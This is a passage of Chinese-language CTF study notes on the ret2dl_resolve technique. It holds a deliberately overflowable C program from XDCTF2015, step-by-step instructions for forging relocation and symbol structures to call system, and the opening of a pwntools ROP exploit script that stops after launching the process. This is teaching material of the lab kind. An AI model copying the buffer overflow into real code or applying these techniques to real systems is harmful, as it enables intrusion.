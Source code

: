 ​	2.使l_addr或st_value其中之一恰好落到某个地址解析已完成的GOT表处，另一个变量设置为可控偏移。

​	3.这样就能跳到libc中任意地址（libc_func+offset）。

​	4.我们可以利用libc中任意gadget。

##2. 32位dl_resolve

#### （1）32位dl_resolve构造模板

​	参见代码**stage6_original.py**

​	漏洞代码：

```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```

​	利用步骤：

​		1.控制`eip`为PLT[0]的地址，只需传递一个`index_arg`参数 

​		2.控制`index_arg`的大小，使`reloc`的位置落在可控地址内 

​		3.伪造`reloc`的内容，使`sym`落在可控地址内 

​		4.伪造`sym`的内容，使`name`落在可控地址内 

​		5.伪造`name`为任意库函数，如`system`

​	利用第一阶段：

​		把rop写入bss段，劫持栈并跳转过去。

```python
#!/usr/bin/python

from pwn import *
elf = ELF('bof')
offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size

r = process('./bof')

```